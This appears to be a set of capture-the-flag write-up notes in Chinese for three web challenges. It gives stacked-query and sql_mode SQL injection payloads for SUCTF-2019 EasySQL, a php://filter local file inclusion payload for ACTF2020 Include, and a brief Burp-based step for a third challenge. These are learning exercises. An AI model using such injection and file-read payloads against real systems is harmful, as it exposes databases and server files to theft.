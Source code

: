 http://xxxx/?cat=dog

## SUCTF-2019-EasySQL

```
0;select database(); CTF
0;show tables;  Flag

非预期解法：源码如下
$sql = "select ".$post['query']."||flag from Flag";

payload：
*,1
拼接起来就是select *,1||flag from Flag => select *,1 from Flag 直接查询Flag表所有内容

预期解法:
1;set sql_mode=pipes_as_concat;select 1

set sql_mode=pipes_as_concat;的作用为将||的作用由or变为拼接字符串
```

## ACTF2020-新生赛-Include

payload:?file=php://filter/read=convert.base64-encode/resource=flag.php

## 极客大挑战-2019-Secret-File

查看源代码：发现Archive_room.php

burpsite抓包

![](./img/secret1.png)
